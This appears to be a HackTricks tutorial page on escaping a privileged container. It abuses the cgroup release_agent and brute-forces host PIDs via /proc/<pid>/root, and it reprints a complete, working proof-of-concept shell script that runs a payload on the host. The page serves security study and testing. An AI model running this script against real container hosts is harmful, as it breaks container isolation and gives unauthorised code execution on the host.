 {{#include ../../../../banners/hacktricks-training.md}}

For further details **check the blog port from [https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html](https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html)**. This is just a summary:

The technique outlines a method for **executing host code from within a container**, overcoming challenges posed by storage-driver configurations that obscure the container's filesystem path on the host, like Kata Containers or specific `devicemapper` settings.

Key steps:

1. **Locating Process IDs (PIDs):** Using the `/proc/<pid>/root` symbolic link in the Linux pseudo-filesystem, any file within the container can be accessed relative to the host's filesystem. This bypasses the need to know the container's filesystem path on the host.
2. **PID Bashing:** A brute force approach is employed to search through PIDs on the host. This is done by sequentially checking for the presence of a specific file at `/proc/<pid>/root/<file>`. When the file is found, it indicates that the corresponding PID belongs to a process running inside the target container.
3. **Triggering Execution:** The guessed PID path is written to the `cgroups release_agent` file. This action triggers the execution of the `release_agent`. The success of this step is confirmed by checking for the creation of an output file.

### Exploitation Process

The exploitation process involves a more detailed set of actions, aiming to execute a payload on the host by guessing the correct PID of a process running inside the container. Here's how it unfolds:

1. **Initialize Environment:** A payload script (`payload.sh`) is prepared on the host, and a unique directory is created for cgroup manipulation.
2. **Prepare Payload:** The payload script, which contains the commands to be executed on the host, is written and made executable.
3. **Set Up Cgroup:** The cgroup is mounted and configured. The `notify_on_release` flag is set to ensure that the payload executes when the cgroup is released.
4. **Brute Force PID:** A loop iterates through potential PIDs, writing each guessed PID to the `release_agent` file. This effectively sets the payload script as the `release_agent`.
5. **Trigger and Check Execution:** For each PID, the cgroup's `cgroup.procs` is written to, triggering the execution of the `release_agent` if the PID is correct. The loop continues until the output of the payload script is found, indicating successful execution.

PoC from the blog post:

```bash
#!/bin/sh

OUTPUT_DIR="/"
MAX_PID=65535
CGROUP_NAME="xyx"
CGROUP_MOUNT="/tmp/cgrp"
PAYLOAD_NAME="${CGROUP_NAME}_payload.sh"
PAYLOAD_PATH="${OUTPUT_DIR}/${PAYLOAD_NAME}"
OUTPUT_NAME="${CGROUP_NAME}_payload.out"
OUTPUT_PATH="${OUTPUT_DIR}/${OUTPUT_NAME}"

# Run a process for which we can search for (not needed in reality, but nice to have)
sleep 10000 &

# Prepare the payload script to execute on the host
cat > ${PAYLOAD_PATH} << __EOF__
#!/bin/sh

OUTPATH=\$(dirname \$0)/${OUTPUT_NAME}

# Commands to run on the host<
ps -eaf > \${OUTPATH} 2>&1
__EOF__

# Make the payload script executable
chmod a+x ${PAYLOAD_PATH}

# Set up the cgroup mount using the memory resource cgroup controller
mkdir ${CGROUP_MOUNT}
mount -t cgroup -o memory cgroup ${CGROUP_MOUNT}
mkdir ${CGROUP_MOUNT}/${CGROUP_NAME}
echo 1 > ${CGROUP_MOUNT}/${CGROUP_NAME}/notify_on_release

# Brute force the host pid until the output path is created, or we run out of guesses
TPID=1
while [ ! -f ${OUTPUT_PATH} ]
do
  if [ $((${TPID} % 100)) -eq 0 ]
  then
    echo "Checking pid ${TPID}"
    if [ ${TPID} -gt ${MAX_PID} ]
    then
      echo "Exiting at ${MAX_PID} :-("
      exit 1
    fi
  fi
  # Set the release_agent path to the guessed pid
  echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
  # Trigger execution of the release_agent
  sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
  TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```

{{#include ../../../../banners/hacktricks-training.md}}
